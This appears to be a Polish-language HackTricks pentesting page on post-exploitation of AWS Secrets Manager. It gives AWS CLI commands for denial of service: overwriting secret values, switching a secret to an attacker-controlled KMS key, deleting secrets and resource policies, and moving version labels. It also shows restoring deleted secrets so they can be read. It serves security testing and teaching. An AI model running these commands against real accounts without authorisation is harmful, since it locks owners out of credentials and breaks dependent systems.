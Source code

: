 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

Więcej informacji:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Read Secrets

**Sekrety same w sobie są informacjami wrażliwymi**, [sprawdź stronę privesc](../aws-privilege-escalation/aws-secrets-manager-privesc.md) aby dowiedzieć się, jak je odczytać.

### DoS Change Secret Value

Zmieniając wartość sekretu możesz **spowodować DoS wszystkich systemów, które zależą od tej wartości.**

> [!WARNING]
> Należy pamiętać, że poprzednie wartości są również przechowywane, więc łatwo jest po prostu powrócić do poprzedniej wartości.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS Change KMS key

Jeśli attacker ma uprawnienie secretsmanager:UpdateSecret, może skonfigurować secret tak, aby używał KMS key należącego do attacker. Ten KMS key jest początkowo ustawiony w taki sposób, że każdy może mieć do niego dostęp i go używać, więc aktualizacja secret z użyciem nowego KMS key jest możliwa. Gdyby KMS key nie był dostępny, secret nie mógłby zostać zaktualizowany.

Po zmianie KMS key dla secret, attacker modyfikuje konfigurację swojego KMS key tak, aby tylko on miał do niego dostęp. W ten sposób w kolejnych wersjach secret będzie szyfrowany nowym KMS key, a ponieważ nie będzie dostępu do tego KMS key, możliwość pobrania secret zostanie utracona.

Ważne jest, aby zauważyć, że ta niedostępność wystąpi dopiero w późniejszych wersjach, po zmianie zawartości secret, ponieważ bieżąca wersja jest nadal zaszyfrowana oryginalnym KMS key.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Usuwanie sekretu

Minimalna liczba dni potrzebna do usunięcia sekretu wynosi 7
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

Możliwe jest przywrócenie secretu, co pozwala na przywrócenie secretów zaplanowanych do usunięcia — minimalny okres usuwania secretów to 7 dni, a maksymalny 30 dni. W połączeniu z uprawnieniem secretsmanager:GetSecretValue umożliwia to pobranie ich zawartości.

Aby odzyskać secret, który jest w trakcie usuwania, możesz użyć następującego polecenia:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

Ta akcja pozwala usunąć politykę zasobów, która kontroluje, kto może uzyskać dostęp do secret. Może to doprowadzić do DoS, jeśli polityka zasobów była skonfigurowana tak, aby zezwalać na dostęp tylko określonej grupie użytkowników.

Aby usunąć politykę zasobów:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

Stany sekretu są używane do zarządzania wersjami sekretu. AWSCURRENT oznacza aktywną wersję, której używają aplikacje, AWSPREVIOUS przechowuje poprzednią wersję, aby można było przywrócić ją w razie potrzeby, a AWSPENDING jest używany w procesie rotacji do przygotowania i walidacji nowej wersji przed ustawieniem jej jako bieżącej.

Aplikacje zawsze odczytują wersję oznaczoną AWSCURRENT. Jeśli ktoś przeniesie tę etykietę na niewłaściwą wersję, aplikacje będą używać nieprawidłowych poświadczeń i mogą nie działać.

AWSPREVIOUS nie jest używane automatycznie. Jednak jeśli AWSCURRENT zostanie usunięte lub przypisane nieprawidłowo, może się wydawać, że wszystko nadal działa na poprzedniej wersji.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}
